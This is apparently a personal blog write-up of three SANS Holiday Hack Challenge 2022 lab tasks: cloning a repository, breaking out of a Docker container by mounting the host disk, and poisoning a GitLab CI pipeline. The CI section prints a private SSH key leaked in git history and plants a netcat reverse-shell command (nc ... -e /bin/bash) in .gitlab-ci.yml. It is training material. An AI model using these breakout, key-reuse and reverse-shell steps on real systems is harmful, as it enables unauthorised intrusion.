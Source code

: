 ```yaml
---
title: "SANS HHC 2022: Recover the Elfen Ring"
date: 2023-01-08 08:00:00 +0802
categories:
  - "Problem Solving"
  - "Holiday Hack Challenge 2022"
tags: [dev]
image:
    path: /assets/img/holiday_hack_challenge_2022/holiday_hack_challenge_2022_banner.png
---
```

**SecDevOps and Supply Chain Attacks**

Identify malicious packages and then attack CI/CD processes to escape a container.

## Clone with a Difference

>Difficulty: 1/5
>
>Clone a code repository. Get hints for this challenge from Bow Ninecandle in the Elfen Ring.

![image](/assets/img/holiday_hack_challenge_2022/783a12b31fd9115346d46f98b17b138926239c970b672753daf2d3badfb008ce.png)  

```bash
$ git clone git@haugfactory.com:asnowball/aws_scripts.git
Cloning into 'aws_scripts'...
The authenticity of host 'haugfactory.com (34.171.230.38)' can't be established.
ECDSA key fingerprint is SHA256:CqJXHictW5q0bjAZOknUyA2zzRgSEJLmdMo4nPj5Tmw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'haugfactory.com,34.171.230.38' (ECDSA) to the list of known hosts.
git@haugfactory.com: Permission denied (publickey).
fatal: Could not read from remote repository.

Please make sure you have the correct access rights and the repository exists.
```

Found public repo at <https://haugfactory.com/orcadmin/aws_scripts>.

```bash
$ git clone https://haugfactory.com/orcadmin/aws_scripts
Cloning into 'aws_scripts'...
warning: redirecting to https://haugfactory.com/orcadmin/aws_scripts.git/
remote: Enumerating objects: 64, done.
remote: Total 64 (delta 0), reused 0 (delta 0), pack-reused 64
Unpacking objects: 100% (64/64), 23.83 KiB | 1.83 MiB/s, done.

$ cd aws_scripts && ls
README.md     container.py        ec2-instances.py  network.py     security.py
analytics.py  create_instance.py  iam.py            put_policy.py  send_ssm.py
compute.py    debug_instances.py  inventory.py      sample.json

$ tail -1 READMEmd
If you have run out of energy or time for your project, put a note at the top of the README saying that development has slowed down or stopped completely. Someone may choose to fork your project or volunteer to step in as a maintainer or owner, allowing your project to keep going. You can also make an explicit request for maintainers.

$ runtoanswer
Read that repo!
What's the last word in the README.md file for the aws_scripts repo?
> maintainers
Your answer: maintainers

Checking......
Your answer is correct!
```

## Prison Escape

>Difficulty: 3/5
>
>Escape from a container. Get hints for this challenge from Bow Ninecandle in the Elfen Ring. What hex string appears in the host file `/home/jailer/.ssh/jail.key.priv`?

![image](/assets/img/holiday_hack_challenge_2022/f51e1d8d89aa8b157c10f430b9bf38a8dd2a59eeb5af7c6457027e8c91af94be.png)  

Observed the presence of `.dockerenv` file in `/`.

![image](/assets/img/holiday_hack_challenge_2022/7552d1302c53232df373f5c2f495ac6faf0a7bb375e8441e9727dad48b676ba6.png)  

Researched on docker breakout. Reference: <https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation>

Performed method described in `Mounting Disk - Poc1`.

Confirmed that root privileges can be obtained.

```bash
$ sudo su
# whoami
root
```

List the partition tables for the specified devices.

```bash
# fdisk -l
Disk /dev/vda: 2048 MB, 2147483648 bytes, 4194304 sectors
2048 cylinders, 64 heads, 32 sectors/track
Units: sectors of 1 * 512 = 512 bytes

Disk /dev/vda doesn't contain a valid partition table
```

Create a mount point.

```bash
# mkdir /mnt/breakout
```

Mount disk to mount point.

```bash
# mount /dev/vda /mnt/breakout
```

Browse directories.

```bash
# cd /mnt/breakout/home && ls
jailer
```

Find flag.

```bash
# cd .ssh
# cat jail.key.priv
```

Hex string found: `082bb339ec19de4935867`

![image](/assets/img/holiday_hack_challenge_2022/26322faf076216bec9b87dc2e7053527bfe2d5b1836934ff19f9a07b50e12b06.png)  

## Jolly CI/CD

>Difficulty: 5/5
>
>Exploit a CI/CD pipeline. Get hints for this challenge from Tinsel Upatree in the Elfen Ring.

![image](/assets/img/holiday_hack_challenge_2022/995469c9d24db62543077846c99d25fcd2c542b03eee2cd0c9bfcc156fa6ecc2.png)  

Performed the following steps to obtain openssh private key for impersonation purpose.

```bash
$ git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git

$ cd wordpress.flag.net.internal/

$ git log
--Redacted--
whoops
commit abdea0ebb21b156c01f7533cea3b895c26198c98
Author: knee-oh <sporx@kringlecon.com>
--Redacted--

$ git show abdea0ebb21b156c01f7533cea3b895c26198c98
--Redacted--
+-----BEGIN OPENSSH PRIVATE KEY-----
+b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
+QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
+9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
+AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
+PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
+-----END OPENSSH PRIVATE KEY-----
--Redacted--
```

Thought through the solution and craft command list.

```
$ mkdir .ssh

$ cd .ssh

$ touch id_ed25519

$ echo -e '-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU59wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==\n-----END OPENSSH PRIVATE KEY-----' > id_ed25519

$ chmod 400 id_ed25519

$ cd ..

$ eval "$(ssh-agent -s)"

$ ssh-add

Test connection:
$ ssh -T git@gitlab.flag.net.internal

$ git clone git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git

$ cd wordpress.flag.net.internal/

$ git config --global user.email “sporx@kringlecon.com”

$ git config --global user.name “knee-oh”

$ nano .gitlab-ci.yml

Replace the script in .gitlab-ci.yml with the following command:
nc 172.18.0.99 8888 -e /bin/bash

$ git commit -am “payload”

$ git push && nc -lvp 8888

ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy root@wordpress.flag.net.internal

cd /

ls -la

cat flag.txt
```

Reverse shell established.

![image](/assets/img/holiday_hack_challenge_2022/12b087993f68131788566d4c473969a5bb7aa830f92f1f67adffafd10fb2993a.png)  

Obtained a shell via SSH.

![image](/assets/img/holiday_hack_challenge_2022/df51a3c91f09b19e34151388dbb33c665faba2ad4e3d306d5a1bfdfe11cc8c84.png)  

Found `flag.txt`.

![image](/assets/img/holiday_hack_challenge_2022/94c8c200ccbc83474d22a5158c7ddda79c860e32ecf483043900f80470623e4a.png)  

Show `flag.txt` contents.

ANS: `oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT`

![image](/assets/img/holiday_hack_challenge_2022/72826abcbba96d2ea0384d8575b861c92bf1f3a0b42038805709403fa643bc2e.png)  

Pondering further: Is the intended solution SSH? To use rsync requires knowledge of the source and destination. How to determine where `flag.txt` is stored without browsing?

Original script contents.

```
script:
    - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress ./ root@wordpress.flag.net.internal:/var/www/html
```

Obtained Elfen Ring.